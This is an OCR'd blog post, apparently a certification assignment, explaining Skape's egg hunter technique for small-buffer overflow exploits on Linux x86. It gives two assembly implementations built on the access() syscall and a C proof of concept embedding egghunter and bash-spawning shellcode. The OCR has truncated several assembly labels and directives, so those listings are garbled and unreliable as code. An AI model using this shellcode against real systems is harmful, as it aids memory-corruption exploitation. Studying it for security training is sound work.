 ```yaml
---
layout: post
title: " Skape's Egg Hunter (null-free/Linux x86) "
date: 2017-05-02 12:00:00
share: true
comments: true
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 3_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---
 
_Note: Pretty much the entire post is extracted from Skape's paper, it's extremely well-written and is a must read._  


## What is an egghunter?

  
Assume you found a buffer overflow vulnerability with a very small space that you control that is less than that of a bind/reverse shell, how can you utilize this space? The following concept is discussed in depth by Skape in [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) where the actual payload is marked by an "egg" (usually 4-8 bytes that are very unlikely to be found in memory) and the small controllable space contains an "egghunter" which will search for that egg in the virtual address space.  
  
Skape discussed 3 different implementations for Linux, I implemented both `access(2)` and `access(2) revised`.  
  

## What are the requirements of an egg hunter?

* **Small size**: Since the main reason an egg hunter is needed is that we're tight on space, the smaller the shellcode is, the better. This is achieved by writing a very optimized shellcode.  

* **Robustness**: It should be able to scan the entire virtual space fast without failing on unallocated memory. This is achieved through multiple methods on Linux, discussed below.  
  
* If you directly try to read an unallocated memory in Linux, program will throw a SIGSEGV and crash. Instead, Skape recommended an out of the box suggestion, which is abusing the `access()` syscall.  
  
```cpp
int access(const char *pathname, int mode);  
```

Passing an address instead of pathname will check if the memory is allocated, if not it won't throw a `SIGSEGV`, allowing us to scan the memory safely.  
  
One more thing is that we need to make sure that the egg hunter won't ultimately point at itself, that's why the code will check the presence of the egg twice in a row before concluding that this is our payload.  

---

## How does the egg hunter work?

#### Method 1: access(2)  
  
```nasm
; Skape's egghunter: access(2)

al _start:  

ion .text  

rt:  
mov ebx, 0x50905090     ; Store EGG in ebx  
xor ecx, ecx            ; Zero out ECX  
mul ecx                 ; Zero out EAX and EDX  
age:                    ; JMP to increment page number  
or dx, 0xfff            ; Align page address  
ddr:                    ; JMP to increment address  
inc edx                 ; Go to next address  
pushad                  ; Push general registers onto stack  
lea ebx, [edx+4]        ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
mov al, 0x21            ; syscall for access()  
int 0x80                ; call access() to check memory location [EBX]  
cmp al, 0xf2            ; Did it return EFAULT?  
popad                   ; Restore registers  
jz IncPage              ; access() returned EFAULT, skip page  
cmp [edx], ebx          ; initialized memory, check if EGG is in [edx]  
jnz IncAddr             ; EGG isn't in [edx], visit next address  
cmp [edx+4], ebx        ; EGG is found in [edx], is it in [edx+4] too?  
jne IncAddr             ; Boohoo! It wasn't. Visit next address  
jmp edx                 ; [edx][edx+4] contain EGGEGG, we found our shellcode! Execute meaningless EGGEGG instructions then our payload  
```    

  
#### Method 2: access(2) revised  
 
```nasm
; Skape's egghunter: access(2) revised  


al _start  

ion .text  

rt:  
xor edx, edx            ; EDX = 0  
age:  
or dx, 0xfff            ; Align page address  
ddr:  
inc edx                 ; Go to next address  
lea ebx, [edx+0x4]      ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
push byte 0x21          ; syscall for access()  
pop eax  
int 0x80                ; call access() to check memory location [EBX]  
cmp al, 0xf2            ; Did it return EFAULT?  
jz IncPage              ; It did, skip page  
mov eax, 0x50905090     ; Store EGG in EAX  
mov edi, edx            ; Move EDX to EDI for scasd operation  
scasd                   ; Check if [EDI] == EAX then increment EDI  
jnz IncAddr             ; It isn't, increment address  
scasd                   ; Check if [EDI] == EAX then increment EDI  
jnz IncAddr             ; It isn't, increment address  
jmp edi                 ; We found our Egg! JMP to EDI, which points directly to our shellcode  
```

---

## Proof of concept

```cpp
/*  
 egghunter.c  
 By Abatchy  
 gcc egghunter.c -fno-stack-protector -z execstack -o shellcode.out  
*/  
  
#include <stdio.h>  
#include <string.h>  
  
#define EGG "\x90\x50\x90\x50"  
  
// Spawns a bash shell  
unsigned char secret[] = EGG EGG  
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";  
  
// Skape's egghunter: access(2)  
unsigned char egghunter1[] =   
"\xbb"  
EGG  
"\x31\xc9"  
"\xf7\xe1"  
"\x66\x81\xca\xff\x0f"  
"\x42"  
"\x60"  
"\x8d\x5a\x04"  
"\xb0\x21"  
"\xcd\x80"  
"\x3c\xf2"  
"\x61"  
"\x74\xed"  
"\x39\x1a"  
"\x75\xee"  
"\x39\x5a\x04"  
"\x75\xe9"  
"\xff\xe2";  
  
// Skape's egghunter: access(2) revised  
unsigned char egghunter2[] =   
"\x31\xd2"  
"\x66\x81\xca\xff\x0f"  
"\x42"  
"\x8d\x5a\x04"  
"\x6a\x21"  
"\x58"  
"\xcd\x80"  
"\x3c\xf2"  
"\x74\xee"  
"\xb8" EGG  
"\x89\xd7"  
"\xaf"  
"\x75\xe9"  
"\xaf"  
"\x75\xe6"  
"\xff\xe7";  
  
int main()  
{  
    printf("Egg is at %p\n", secret);  
    printf("Egghunter size: %d\n", strlen(egghunter1));  
    int (*ret)() = (int(*)())egghunter1;  
    ret();  
}  
```

  
Successfully running this code will search for the `EGG` in the memory and execute the payload, throwing a bash shell. Using `strace ./program` is a nice way to check if it's searching memory properly, or attaching GDB.  
  
\- Abatchy
